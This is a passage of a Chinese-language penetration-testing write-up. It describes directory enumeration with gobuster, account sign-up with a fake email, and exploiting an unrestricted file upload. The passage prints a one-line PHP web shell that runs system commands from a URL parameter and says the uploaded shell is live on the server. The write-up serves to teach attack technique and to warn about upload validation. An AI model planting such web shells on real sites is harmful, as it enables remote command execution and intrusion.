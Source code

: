 From The Art of War. Enumerating is key.

如果上述扫描的信息不够，可以考虑进行 UDP 端口扫描并扫描超过前 1000 个端口。唯一允许我们与之交互的端口(没有凭证)是端口 80/443。

为了不浪费任何时间，我启动了`gobuster`来枚举 web 服务器上任何感兴趣的文件，同时我将手动挖掘信息。

```
$ gobuster -u http://example.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100/admin
/login
```

原来/admin 路径是一个“管理工具”,它允许经过验证的用户修改 web 服务器上的内容。这需要凭证，因为我们既没有用户名也没有密码，我们继续前进。(剧透:gobuster 没有发现任何有价值的东西)

> 到目前为止，我们已经进行了 3 分钟。还没有什么有用的。

浏览网站时，我们看到它要求我们登录。没问题，我们用一个[假邮件](http://www.fakemailgenerator.com)创建一个账户，点击确认邮件，几秒钟后登录。

该网站欢迎我们，并提示我们导航到我们的个人资料，并更新我们的个人资料图片。多好啊。

看到这个网站看起来是定制的，我倾向于测试一个[无限制文件上传](https://www.owasp.org/index.php/Unrestricted_File_Upload)漏洞。在我的终端上，我执行:

```
echo "<?php system(\$_GET['cmd']); ?>" > exploit.php
```

我试着上传“图像”,然后就好了！上传者允许*exploit.php*文件被上传。当然，它没有缩略图，但这意味着我的文件被上传到了某个地方。

![](img/56c1686f8c021f04075a88e91a2f61d0.png)

Get the exploit’s location

在这里，我们希望上传者对上传的文件进行某种处理，检查其文件扩展名，并替换为已接受的文件扩展名，如。jpeg，。jpg，以避免攻击者上传恶意代码远程执行代码，就像你的一样。

人们毕竟关心安全。

对吗？对吗？…对吗？

```
`Copy image address` results in the following url being copied to our clipboard:
http://www.example.com/admin/ftp/objects/XXXXXXXXXXXX.php
```

看起来我们已经准备好了 webshell，并且正在运行:

![](img/bace052397c11686e397f4e9b59507d3.png)
